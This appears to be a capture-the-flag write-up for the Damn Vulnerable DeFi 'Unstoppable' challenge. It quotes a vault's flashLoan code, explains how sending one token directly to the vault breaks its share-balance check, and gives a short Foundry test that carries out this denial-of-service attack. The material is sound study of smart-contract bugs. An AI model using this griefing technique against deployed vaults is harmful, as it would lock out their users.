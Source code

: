 ### Damn Vulnerable DeFi: Unstoppable

## The assertion if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); cause DOS if transfer token directly to the contract without passing throgh the deposit function

**Description** The vault relies on the invariant that the total number of shares must always correspond to the total value of the underlying tokens. When users call the `UnstoppableVault::deposit` function, they receive share tokens that maintain this 1:1 relationship between shares and underlying assets.
However, the contract also exposes a `UnstoppableVault::transfer` function. If an external user directly transfers even a single underlying token to the vault, the invariant will be permanently broken, as the contract’s balance of underlying tokens will exceed the value represented by the total supply of shares.

<details>
<summary>vulnerability</summary>

```solidity
 function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
        //@audit-issue this is the vulbnerable line, attacker can break  it sending tokens directly to the vault
@>      if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }
```

</details>

**Impact** This results in a permanent Denial of Service (DOS) for the flash loan functionality, since the check
`convertToShares(totalSupply) == totalAssets()` will always fail.

**ProofOfConcept** Add the following to the `Unstoppable.t.sol` test file on `Unstoppable.t.sol::test_unstoppable` and run the test. Check log to see `UnstoppableVault::convertToShares(totalSupply)` and `UnstoppableVault::totalAssets()` values.

<details>
<summary>Test Code</summary>

```solidity
    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        token.transfer(address(vault), 1);
        console.log("total supply convertToShares: ", vault.convertToShares(vault.totalSupply()));
        console.log("total assets:                ", vault.totalAssets());
    }
```

</details>
